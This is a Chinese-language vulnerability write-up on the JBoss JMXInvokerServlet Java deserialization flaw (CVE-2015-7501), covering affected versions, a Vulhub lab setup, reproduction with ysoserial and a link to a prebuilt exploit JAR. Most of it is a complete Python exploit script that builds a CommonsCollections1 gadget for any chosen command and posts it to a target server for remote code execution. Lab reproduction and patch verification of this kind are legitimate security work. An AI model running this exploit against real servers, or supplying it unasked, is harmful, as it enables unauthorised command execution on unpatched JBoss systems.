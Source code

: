 # JBoss JMXInvokerServlet 反序列化漏洞 CVE-2015-7501

## 漏洞描述

这是经典的JBoss反序列化漏洞，JBoss在`/invoker/JMXInvokerServlet`请求中读取了用户传入的对象，然后我们利用Apache Commons Collections中的Gadget执行任意代码。

参考文档：

- https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/
- https://www.seebug.org/vuldb/ssvid-89723
- http://www.freebuf.com/sectool/88908.html
- https://paper.seebug.org/312/

## 漏洞影响

```
JBoss AS 4.x及之前版本
```

## 环境搭建

Vulhub启动漏洞环境

```
docker-compose up -d
```

首次执行时会有1~3分钟时间初始化，初始化完成后访问`http://your-ip:8080/`即可看到JBoss默认页面。

![image-20220224144324655](images/202202241443726.png)

## 漏洞复现

JBoss在处理`/invoker/JMXInvokerServlet`请求的时候读取了对象，所以我们直接将[ysoserial](https://github.com/frohoff/ysoserial)生成好的POC附在POST Body中发送即可。整个过程可参考JBoss 5.x/6.x 反序列化漏洞 CVE-2017-12149。

网上已经有很多EXP了，比如[DeserializeExploit.jar](https://cdn.vulhub.org/deserialization/DeserializeExploit.jar)，直接用该工具执行命令、上传文件即可。

## 漏洞EXP

```python
#! /usr/bin/env python2

# Jboss Java Deserialization RCE (CVE-2015-7501)
# Made with <3 by @byt3bl33d3r

from __future__ import print_function
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

import argparse
import sys, os
#from binascii import hexlify, unhexlify
from subprocess import check_output

ysoserial_default_paths = ['./ysoserial.jar', '../ysoserial.jar']
ysoserial_path = None

parser = argparse.ArgumentParser()
parser.add_argument('target', type=str, help='Target IP')
parser.add_argument('command', type=str, help='Command to run on target')
parser.add_argument('--proto', choices={'http', 'https'}, default='http', help='Send exploit over http or https (default: http)')
parser.add_argument('--ysoserial-path', metavar='PATH', type=str, help='Path to ysoserial JAR (default: tries current and previous directory)')

if len(sys.argv) < 2:
    parser.print_help()
    sys.exit(1)

args = parser.parse_args()

if not args.ysoserial_path:
    for path in ysoserial_default_paths:
        if os.path.exists(path):
            ysoserial_path = path
else:
    if os.path.exists(args.ysoserial_path):
        ysoserial_path = args.ysoserial_path

if ysoserial_path is None:
    print('[-] Could not find ysoserial JAR file')
    sys.exit(1)

if len(args.target.split(":")) != 2:
    print('[-] Target must be in format IP:PORT')
    sys.exit(1)

if not args.command:
    print('[-] You must specify a command to run')
    sys.exit(1)

ip, port = args.target.split(':')

print('[*] Target IP: {}'.format(ip))
print('[*] Target PORT: {}'.format(port))

gadget = check_output(['java', '-jar', ysoserial_path, 'CommonsCollections1', args.command])

r = requests.post('{}://{}:{}/invoker/JMXInvokerServlet'.format(args.proto, ip, port), verify=False, data=gadget)

if r.status_code == 200:
    print('[+] Command executed successfully')

```

